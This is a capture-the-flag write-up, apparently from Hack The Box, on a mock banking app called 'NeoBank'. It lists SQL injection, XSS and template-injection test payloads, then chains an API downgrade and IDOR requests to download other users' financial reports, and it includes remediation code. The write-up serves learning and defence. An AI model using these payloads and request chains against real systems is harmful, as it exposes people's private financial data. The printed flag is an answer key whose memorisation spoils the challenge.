NeoBank is a simplified banking application. The objective is to identify security flaws in the application logic to access unauthorized data.


The application provides standard user authentication functionality with login and registration forms.



---

## Authentication Testing

### Login Page Analysis



**Testing performed:**
- ✅ SQL Injection payloads: `' OR 1=1--`, `admin'--`, `' UNION SELECT`
- ✅ Authentication bypass: Empty credentials, null bytes
- ❌ No vulnerabilities found

**Conclusion**: Login mechanism appears secure - moving to account creation.

---

## Initial Access

### Creating a Test Account


Account registration was successful, providing access to the application as a standard user.



The user dashboard provides access to account balance information, transaction history, and a feature to download financial reports.

---

## Information Disclosure

### Username Enumeration via Transaction History


**Finding**: Transaction history reveals username `neo_system`.

**Vulnerability**: The application discloses other users' usernames in transaction records.

**Impact**:
- Username enumeration
- Reconnaissance for targeted attacks
- Potential privilege escalation if admin/system accounts are revealed

**OWASP**: A01:2021 - Broken Access Control (Information Leakage)

---

## Testing Additional Features

### Financial Report Analysis



The financial report feature generates a PDF containing the user's transaction history.

### Injection Testing on Transaction Description



**Payloads tested:**
- XSS: `<script>alert(1)</script>`, ``
- SSTI: `{{7*7}}`, `${7*7}`, `<%= 7*7 %>`
- HTML Injection: `<h1>Test</h1>`

**Result**: Special characters are HTML-encoded, preventing injection attacks.



The encoding is also applied in the downloaded PDF report, confirming proper output encoding.

---

## API Version Analysis

### Request History Analysis


**Key Finding**: Reviewing proxy history revealed endpoints containing user IDs.

**Identified Endpoints:**
- `/api/v1/user/details` - Returns user information including `userid`
- `/api/v2/download-report` - Downloads financial reports
- `/api/v1/download-report` - Legacy endpoint (to be tested)

This suggests the application has **multiple API versions** - a common source of security vulnerabilities.

---

## Vulnerability #2: API Version Downgrade Attack

### Testing Legacy v1 Endpoint



Intercepted the download report request to analyze the API call structure.


**Attack Vector Discovered:**

Changed the API endpoint from:
```http
GET /api/v2/download-report HTTP/1.1
```

To:
```http
GET /api/v1/download-report HTTP/1.1
```

**Response**: The v1 endpoint returns an error requesting an `_id` parameter!

```http
HTTP/1.1 400 Bad Request
{"error": "Missing required parameter: _id"}
```

**Analysis:**
- **v2 Behavior**: Uses session/token to determine which user's report to download (secure)
  ```python
  user_id = get_from_session()  # Server-controlled
  ```
- **v1 Behavior**: Requires an `_id` parameter from user input (vulnerable to IDOR)
  ```python
  user_id = request.args.get('_id')  # User-controlled ⚠️
  ```

**The Critical Difference:**
v2 trusts the **server** (session). v1 trusts the **user** (parameter). Never trust user input for authorization decisions.

---

## Vulnerability #3: Chained IDOR Attack

### Step 1: Obtaining Target UserID



We already know the username `neo_system` from the transaction history.



**Exploitation:**

Used the discovered information to craft the attack:

```http
GET /api/v1/download-report?_id=<neo_system_userid> HTTP/1.1
Cookie: session=<our_session>
```

Where `<neo_system_userid>` was obtained from previous endpoint responses.

### Step 2: Accessing neo_system's Report



**Success!** We successfully accessed `neo_system`'s financial report.

**Finding**: The report doesn't contain the flag, but reveals another username: `user_with_flag`

**Vulnerability Confirmed**: 
- **Type**: IDOR (Insecure Direct Object Reference) / BOLA (Broken Object Level Authorization)
- **Root Cause**: Legacy v1 API doesn't validate if the authenticated user owns the requested `_id`
- **Authentication ≠ Authorization**: App checks IF you're logged in, not WHAT you can access

---

## Vulnerability #4: Username to UserID Enumeration

### Discovering the Conversion Endpoint



**Endpoint Found**: `/api/v1/user/details?username=<target_username>`

This endpoint allows converting any username to their corresponding `userid` without proper authorization checks.

### Exploiting Username Enumeration



**Attack:**

```http
GET /api/v1/user/details?username=user_with_flag HTTP/1.1
Cookie: session=<our_session>
```

**Response:**
```json
{
  "username": "user_with_flag",
  "userid": "<flag_user_id>",
  ...
}
```

**Vulnerability**: Another IDOR - any authenticated user can query details of ANY username.

**Impact Multiplier:** This endpoint enables mass exploitation. An attacker could:
1. Enumerate usernames (from transaction history, public profiles, etc.)
2. Batch convert them to IDs
3. Download all users' financial reports
4. Exfiltrate entire database of customer data

---

## Flag Retrieval

### Success!


**Flag captured!** The financial report for `HTB{n0t_s0_3asy_1d0r}` contains the final flag.

---

## Complete Attack Chain

```text
[Create Account & Login]
        ↓
[Transaction History reveals neo_system]
        ↓
[Discover API v1/v2 endpoints]
        ↓
[Test v1 endpoint - requires _id parameter]
        ↓
[Find neo_system userid]
        ↓
[Access neo_system report via v1 IDOR]
        ↓
[Discover user_with_flag username]
        ↓
[Use /api/v1/user/details?username=user_with_flag]
        ↓
[Get user_with_flag userid]
        ↓
[Access user_with_flag report via v1 IDOR]
        ↓
[🚩 FLAG CAPTURED!]
```

---

## Vulnerability Summary

| # | **Vulnerability** | **Endpoint** | **Severity** | **Impact** |
|---|---|---|---|---|
| 3 | **IDOR - Report Access** | `/api/v1/download-report?_id=` | Critical | Unauthorized access to financial reports |
| 4 | **IDOR - User Details** | `/api/v1/user/details?username=` | High | Enumerate any user's details |

---

## Root Cause Analysis

### Why This Vulnerability Exists

**Problem**: The development team created API v2 to fix security issues in v1, but **failed to disable the legacy v1 endpoints**.

**Code Comparison:**

#### Vulnerable v1 Implementation ❌
```python
@app.route('/api/v1/download-report')
def download_report_v1():
    # Only checks if user is authenticated
    if not is_authenticated():
        return {"error": "Unauthorized"}, 401
    
    # Gets _id from user input (VULNERABLE!)
    user_id = request.args.get('_id')
    
    # No check if current user owns this report!
    report = db.get_report_by_user_id(user_id)
    
    return report
```

#### Secure v2 Implementation ✅
```python
@app.route('/api/v2/download-report')
def download_report_v2():
    # Checks if user is authenticated
    if not is_authenticated():
        return {"error": "Unauthorized"}, 401
    
    # Gets user_id from SESSION, not from user input
    current_user_id = get_user_from_session()
    
    # Only returns THEIR report
    report = db.get_report_by_user_id(current_user_id)
    
    return report
```

**The Fix**: v2 properly uses the session-derived `user_id` instead of accepting it from user input.

**The Problem**: v1 is still accessible and exploitable!

---

## Remediation Recommendations

### Immediate Actions

1.  **Disable Legacy API v1**
    ```python
    @app.route('/api/v1/<path:path>')
    def deprecated_api(path):
        return {"error": "API v1 is deprecated. Please use v2."}, 410
    ```

2.  **Implement Object-Level Authorization**
    ```python
    def require_ownership(user_id, resource_id):
        resource = db.get_resource(resource_id)
        if resource.owner_id != user_id:
            abort(403)
    ```

3.  **Remove Direct Object References**
    - Don't accept `_id` from user input
    - Always derive resource ownership from session/token

4.  **Fix Username Enumeration**
    - Remove usernames from transaction history (use "User #123")
    - Restrict `/api/v1/user/details` to only return current user's details

### Long-Term Security Improvements

- [ ] Implement API versioning deprecation policy
- [ ] Audit all endpoints for authorization checks
- [ ] Use indirect object references (mapping tables)
- [ ] Implement comprehensive logging for access attempts
- [ ] Add rate limiting to prevent enumeration
- [ ] Security code review for all API endpoints
- [ ] Penetration testing before deprecating old versions

---

## OWASP Mapping

| **OWASP Top 10 2021** | **Vulnerability** |
|---|---|
| **A01:2021 - Broken Access Control** | IDOR on report download, user details enumeration |
| **A01:2023 - BOLA (API)** | Missing object-level authorization on v1 endpoints |

---

## Key Takeaways

### What I Learned

1.  **API Versioning ≠ Security**: Just because a new secure version exists doesn't mean old versions are disabled
2.  **Authorization vs Authentication**: App verified WHO I was (authentication) but not WHAT I could access (authorization)
3.  **Chaining Vulnerabilities**: Small info leaks (username) + IDOR = Full compromise
4.  **Test Legacy Endpoints**: Always enumerate and test all API versions (v0, v1, v2, beta, dev)
5.  **Object References**: Any user-controllable ID parameter is a potential IDOR

### Practical Application

This vulnerability pattern is **extremely common** in real-world applications:
- Bug bounty programs frequently reward IDOR findings
- Many companies maintain legacy APIs for backward compatibility
- Authorization issues are #1 in OWASP API Security Top 10

---

## Tools Used

- **Burp Suite** - Proxy, Intruder, Repeater
- **Browser DevTools** - Network tab for API analysis
- **curl** - Manual request testing

---

## References

- [[API-Versioning-Authorization-Cheatsheet]]
- [OWASP API Security Top 10](https://owasp.org/www-project-api-security/)
- [PortSwigger - Access Control](https://portswigger.net/web-security/access-control)
- [HackTricks - IDOR](https://book.hacktricks.xyz/pentesting-web/idor)

---

## Flag

```
HTB{n0t_s0_3asy_1d0r}
```

---

**Date Completed**: 2025-12-21  
**Time Spent**: ~2 hours  
**Difficulty Rating**: ⭐⭐☆☆☆ (Easy - Good for learning IDOR fundamentals)